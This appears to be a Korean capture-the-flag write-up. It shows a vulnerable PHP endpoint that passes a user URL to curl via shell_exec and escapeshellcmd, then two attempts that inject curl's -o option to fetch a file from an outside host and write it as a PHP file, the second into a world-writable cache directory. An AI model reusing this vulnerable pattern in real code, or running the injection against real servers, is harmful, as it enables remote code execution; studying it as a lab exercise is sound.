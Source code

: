 ![alt text](image-2.png)
![alt text](image-3.png)
![alt text](image-1.png)

```php
$url = $_GET['url'];
if (strpos($url, 'http') !== 0) {
    die('http only !');
} else {
    $result = shell_exec('curl '.escapeshellcmd($_GET['url']));
    $cache_file = './cache/'.md5($url);
    file_put_contents($cache_file, $result);
    echo "<p>cache file: <a href='{$cache_file}'>{$cache_file}</a></p>";
    echo '<pre>'.htmlentities($result).'</pre>';
    return;
}
```

## Try 1
```
curl http://php.code/included.txt -o ./test.php
```
생성되지 않음 이유는 디렉토리 내 쓰기 권한이 없음
![alt text](image-4.png)
하지만 현재 디렉토리 내 worldwritable 디렉토리 확인!
![alt text](image-5.png)

## Try 2
```
curl http://php.code/included.txt -o ./cache/test.php
```

